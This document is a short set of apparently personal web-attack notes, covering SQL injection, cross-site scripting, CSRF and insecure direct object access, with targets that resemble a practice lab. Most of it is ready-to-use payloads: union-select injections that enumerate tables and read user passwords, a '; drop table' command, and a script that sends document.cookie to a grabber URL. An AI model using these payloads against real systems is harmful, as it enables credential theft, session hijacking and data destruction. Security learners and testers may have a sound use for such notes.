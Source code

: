 Use functions:
- Show version

    `' or 1=1 union select null, version() #`

- Show current time lol

    `0' or 1=1 union select null, now() #`

- Show current database

    `' or 1=1 union select null, database() #`

- Show user database is running as

    `' or 1=1 union select null, user() #`

Use other queries.

- List database tables

    `' and 1=1 union select null, table_name from information_schema.tables # `

- List column names of a table

    `' union select null, column_name from information_schema.columns where table_name = 'users' #`

    `' union select null, column_name from information_schema.columns where table_name = 'guestbook' #`

- Read comments from guestbook

    `' union select name, comment from guestbook #`

- Read passwords from users

    `' union select user_id, password from users #`

- Delete a table

    '; drop table guestbook #

### Cross site scripting

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Effective way of stealing cookies (Access user's cookie store and send somewhere)
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>

BEEF is a tool which can be used to build xss scripts

excess-xss.com

### Cross Site Request Forgery

Abusing cookies for impersonation and priveledge escalation

With REST GET requests, site cookies are sent along with the request


### Direct Object Access

Look for IDs in URLs, etc

